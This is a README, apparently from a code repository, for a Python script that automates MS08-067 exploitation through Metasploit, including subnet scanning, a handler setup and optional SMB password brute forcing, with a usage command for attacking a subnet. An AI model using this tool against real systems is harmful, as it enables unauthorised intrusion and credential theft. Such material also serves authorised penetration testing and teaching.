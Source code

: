 # MS08-067 Exploit Script

This script automates the exploitation of the MS08-067 vulnerability using Metasploit. It scans for vulnerable hosts on a specified subnet, sets up a handler, and attempts exploitation and optional SMB brute force attacks.

## Prerequisites

- Python 3.x
- nmap
- Metasploit Framework

## Installation

1. Ensure Python 3.x is installed on your system.
2. Install the required Python package `python-nmap` using pip:

   ```bash
   pip install python-nmap

## Usage

python ms08_067_exploit.py -H 192.168.1.0/24 -l 192.168.1.100 -p 4444 -F passwords.txt

